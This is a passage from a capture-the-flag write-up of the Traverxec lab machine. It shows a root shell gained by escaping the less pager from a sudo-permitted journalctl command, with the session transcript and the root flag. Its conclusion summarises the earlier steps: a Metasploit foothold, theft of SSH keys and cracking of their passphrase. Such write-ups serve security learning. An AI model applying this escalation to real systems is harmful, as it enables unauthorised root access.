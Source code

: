 Knowing that this script is calling `journalctl` as root means that it's most definitely going to be what we need to exploit for our privilege escalation. Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/) for `journalctl` it states that the pager will be invoked (`less`). We can pop a shell using `!/bin/sh`, or we can execute basically any commands we'd like if we precede them with `!`.

After some playing around we can confirm that executing `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` does not require us to enter a password, and does indeed invoke `less`. All we need to do in order to exploit this is to shrink the terminal window down a bit, under 6 lines, and execute `!/bin/bash` to get our root shell.

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Tue 2019-12-17 10:09:44 EST, end at Tue 2019-12-17 11:38:42 EST. --
Dec 17 11:15:54 traverxec sudo[2264]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 17 11:15:54 traverxec sudo[2264]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
Dec 17 11:18:40 traverxec sudo[2319]: pam_unix(sudo:auth): conversation failed
Dec 17 11:18:40 traverxec sudo[2319]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 17 11:18:40 traverxec sudo[2319]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
!/usr/bin/bash
root@traverxec:/home/david/bin# cat /root/root.txt
9aa36a6d76f785dfd320a478f6e0d906
root@traverxec:/home/david/bin# 
```

# Conclusion  
This box was really straight forward for the most part. The initial foothold was obvious, and using the Metasploit module made it very easy. Finding the public directory inside David's home directory via the nostromo configuration was probably the most confusing part, at least from my perspective. Once we found that directory, Meterpreter allowed us to download the backup file of ssh keys quite easily. The keys did have a password, but cracking this was also rather simple since the password would be present on almost any wordlist. The path to root was clear immediately after gaining access as the user. While the method we were to use to exploit it was also clear right away, actually doing so still took me about a day, as I was over thinking it a bit. Traverxec was a fun box, and well named. It was my first box in quite a few months, and a nice reintroduction. 
